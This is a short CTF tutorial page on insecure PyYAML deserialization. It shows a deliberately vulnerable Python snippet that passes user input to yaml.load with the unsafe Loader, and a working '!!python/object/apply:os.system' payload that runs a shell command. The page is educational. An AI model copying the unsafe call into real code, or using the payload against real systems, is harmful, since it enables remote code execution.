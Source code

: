 ```yaml
---
title: "YAML Deserialization"
description: "Exploit insecure YAML deserialization in Python applications to achieve code execution or access sensitive objects."
date: 2025-10-06
draft: false
weight: 30
categories: ["Web"]
tags: ["yaml", "deserialization", "pYYAML", "python", "web", "ctf"]
authors: ["CTF.Support Team"]
summary: "Learn how unsafe use of yaml.load() leads to arbitrary code execution and how to identify and exploit YAML deserialization bugs in CTF challenges."
aliases: ["/web/python/yaml-deserialization/"]
slug: "yaml-deserialization"
toc: true
---
```


## Introduction

**YAML deserialization vulnerabilities** occur when a Python application uses `yaml.load()` insecurely on untrusted input.
The `PyYAML` module can instantiate arbitrary Python objects leading to **remote code execution** (RCE).
In web CTFs, YAML files or request payloads often hide this weakness.

---

## Quick Reference

| Task                 | Code / Payload                              |
|----------------------|---------------------------------------------|
| Vulnerable call      | `yaml.load(user_input, Loader=yaml.Loader)` |
| Detect vulnerability | Search for `yaml.load(` in source code      |
| Exploit template     | Use `!!python/object/apply:` payloads       |

---

## Example: Vulnerable Application

```python
import yaml

def parse_config(data):
    return yaml.load(data, Loader=yaml.Loader)

user_yaml = input("Enter YAML: ")
parse_config(user_yaml)
```

---

## Exploitation Example

To trigger code execution, you can invoke OS commands using Python's `os.system` via PyYAML's apply syntax.

```yaml
!!python/object/apply:os.system ["cat flag.txt"]
```

When deserialized, this executes the command on the host.
